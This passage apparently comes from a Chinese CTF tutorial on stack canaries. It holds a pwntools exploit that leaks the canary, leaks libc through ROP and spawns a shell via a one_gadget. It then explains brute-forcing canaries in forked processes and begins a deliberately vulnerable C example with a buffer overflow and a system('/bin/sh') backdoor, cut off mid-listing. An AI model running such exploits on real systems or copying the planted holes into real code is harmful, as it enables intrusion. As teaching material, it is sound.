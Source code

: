 ```python
def exp():
    payload = "a"*0x88
    p.recvuntil(">> ")
    p.sendline("1")
    p.sendline(payload)
    p.recvuntil(">> ")
    p.sendline("2")
    p.recvuntil("a" * 0x88 + '\n')
    canary = u64(p.recv(7).rjust(8, '\x00'))
    log.success("canary==>" + hex(canary))
    payload = "a"*0x88 + p64(canary) + "a"*8 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(start)
    p.recvuntil(">> ")
    p.sendline("1")
    p.sendline(payload)
    p.recvuntil(">> ")
    p.sendline("3")
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - libc.sym['puts']
    log.success("puts_addr==>" + hex(puts_addr))
    log.success("libc_base==>" + hex(libc_base))
    one_gadget = libc_base + 0xf1207
    payload = "a" * 0x88 + p64(canary) + "a"*8 + p64(one_gadget)
    p.recvuntil(">> ")
    p.sendline("1")
    p.send(payload)
    p.recvuntil(">> ")
    p.sendline("3")
    p.interactive()
exp()
```

## Fork子进程程序爆破canary

Fork函数创建子进程相当于复制一份当前进程，并且其中的内存布局以及变量等，包括canary都与父进程一致
那么每次程序挂了，都相当于会再重新开始一遍
那我们可以逐位爆破canary，如果程序挂了就说明这一位不对，如果程序正常就可以接着跑下一位，直到爆破出正确的canary

### 例题

这基本上都是直接从veritas👴👴的blog里摘出来的

```C++
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/wait.h>
void backdoor(void) {
    system("/bin/sh");
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
void vul(void) {
    char buffer[100];
    read(STDIN_FILENO, buffer, 120);
}
int main(void) {
    init();
	pid_t pid;
	while(1) {
		pid = fork();
```